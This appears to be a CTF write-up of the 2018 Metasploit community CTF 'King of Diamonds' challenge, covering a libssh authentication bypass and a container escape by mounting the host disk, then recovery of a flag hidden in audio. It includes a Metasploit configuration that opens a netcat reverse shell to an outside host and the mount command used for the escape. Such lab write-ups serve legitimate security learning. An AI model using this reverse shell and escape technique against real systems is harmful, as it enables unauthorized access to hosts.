


# King of Diamonds - port 2222

This was the only one on the Ubuntu box that I didn't solve during the CTF, even though I was very close, and the reason was good learning for myself so I don't forget these things in the future.

This was also the box used to escape the container and get into the host filesystem, as described in the [Ubuntu README](https://github.com/ant0/ctf_writeups/tree/master/2018_metasploit_community_ctf/ubuntu#shell-on-ubuntu-host).

I don't have notes written down, but the service on this port was using `libssh` and there was a very easy msf exploit to find.

	use auxiliary/scanner/ssh/libssh_auth_bypass
	set cmd nc 172.16.4.84 6666 -e /bin/sh
	set rhosts 172.16.4.85
	set rport 2222

However, once we got a shell then there was really nothing interesting on the box. I even did a `find .` and slowly went through all files without finding anything useful. Eventually we check what's happening with `mount`:

```
mount
none on / type aufs (rw,relatime,si=1d3b72e49a90ac7e,dio,dirperm1)
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
tmpfs on /dev type tmpfs (rw,nosuid,mode=755)
devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=666)
sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
tmpfs on /sys/fs/cgroup type tmpfs (rw,nosuid,nodev,noexec,relatime,mode=755)
cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
cgroup on /sys/fs/cgroup/hugetlb type cgroup (rw,nosuid,nodev,noexec,relatime,hugetlb)
cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
cgroup on /sys/fs/cgroup/memory type cgroup (rw,nosuid,nodev,noexec,relatime,memory)
cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
cgroup on /sys/fs/cgroup/pids type cgroup (rw,nosuid,nodev,noexec,relatime,pids)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
udev on /dev/snd type devtmpfs (rw,nosuid,relatime,size=1002176k,nr_inodes=250544,mode=755)
/dev/xvda1 on /etc/resolv.conf type ext4 (rw,relatime,discard,data=ordered)
/dev/xvda1 on /etc/hostname type ext4 (rw,relatime,discard,data=ordered)
/dev/xvda1 on /etc/hosts type ext4 (rw,relatime,discard,data=ordered)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)
```

There is something a little odd here, do you see it?

```
df
Filesystem           1K-blocks      Used Available Use% Mounted on
none                   8065444   6384520   1664540  79% /
tmpfs                  1023148         0   1023148   0% /dev
tmpfs                  1023148         0   1023148   0% /sys/fs/cgroup
udev                   1002176         0   1002176   0% /dev/snd
/dev/xvda1             8065444   6384520   1664540  79% /etc/resolv.conf
/dev/xvda1             8065444   6384520   1664540  79% /etc/hostname
/dev/xvda1             8065444   6384520   1664540  79% /etc/hosts
shm                      65536         0     65536   0% /dev/shm
```

This shows it even better, which is that it's odd that devices are mounted on normal files used by system. This means that wherever the `/etc` files are coming, is probably somewhere that is helping to configure/control this box. Even more interesting are the options given in brackets, looks like even read/write is available!

We try mounting `/dev/xvda1` to a new directory we create.

```
mount -o rw,relatime,discard,data=ordered /dev/xvda1 /test
```

It worked and now we can see the filesystem of the Ubuntu host.

```
ls /test
bin
boot
dev
etc
home
initrd.img
initrd.img.old
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
vmlinuz.old
```

We also verified it was the host, and could now easily capture other flags:

	Linux ip-172-16-4-85 4.4.0-139-generic #165-Ubuntu SMP Wed Oct 24 10:58:50 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

But for the King of Diamonds itself, it was still well hidden. Two hints from Metasploit were:

There are two `king_of_diamonds` hints:

> The flag flies both in time and space,
> Though no one's sure quite when or where.
> New kids at school feel out of place.
> Their voices are loud. But to you, I DFIR.

> I hear you singing in the wire
> I can hear you through the whine
> And the King of Diamonds, is still on the line!
> .. .. .. ..

This heavily hints at some kind of audio/forensic task. I got a meterpreter shell and from the available commands, an interesting one was to start recording from the microphone using `mic_start`. After recording it for a little while and playing it back, I could hear music then some kind of static noise. This would keep on looping. I was pretty convinced that this "static noise" was actually the flag data and I was (almost) right.



When I cut the audio to only have the static noise, I could not find any trace of PNG signatures. It eventually transpired that Meterpreter uses `arecord` under the hood, but uses a sample rate of 11025Hz. The original recording is 44100Hz, so there was major data lost with my recording! It should have been recording at CD quality, i.e. 44100Hz.



So if I had used `arecord` to capture the audio, which was a binary on the box, then I would have been able to cut out the static noise and stick it all together to re-create the image. Apparently using meterpreter to hear the audio was some kind of side-effect and not intended to work.

The other solution was to trace the audio back to the source, which was a binary called `corey` in the Ubuntu host. This could have been found by looking at system logs, or using `tcpdump` to trace to the source of the audio. From the binary you could directly extract the image using `foremost`, which is a tool that I think is actually better than `binwalk`.

Oh well! Lesson learnt, and it will teach me to always question and validate my thoughts better.

> "Go slow in order to go fast."

